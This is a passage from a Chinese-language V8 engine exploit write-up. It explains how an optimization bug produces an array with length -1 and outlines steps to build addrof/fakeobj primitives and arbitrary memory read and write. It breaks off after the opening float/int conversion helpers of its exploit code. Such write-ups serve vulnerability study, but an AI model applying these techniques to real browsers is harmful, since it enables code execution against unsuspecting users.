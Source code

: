 可以看下其生成的优化代码：

![](./img/1195777-code.png)

有两处对长度的赋值，分别对应`flag == true` 和 `flag == false` ，第二处的赋值直接把0xfffffffe（Int32(0xffffffff << 1)）赋值给长度，所以我们能得到一个长度为-1的数组，具体为啥会这样还得等后面熟悉了再回头看看。。。

后续步骤：

- 修改corrupt_arr的length
- 利用oob_arr和corrupt_arr来构造addrof和fakeobj原语
- 泄露出corrupt_arr的map
- 申请一个FixedDoubleArray对象A，布置好其内容（为下一步伪造对象做准备）
- 利用fakeobj原语fake一个FixedDoubleArray对象B
- 利用对象A和B实现任意地址读写

具体代码：

```javascript
var buf = new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var bigUint64 = new BigUint64Array(buf);
var Uint32 = new Int32Array(buf);
function f2i(f)
{
    float64[0] = f;
    return bigUint64[0];
}
function i2f(i)
{
    bigUint64[0] = i;
```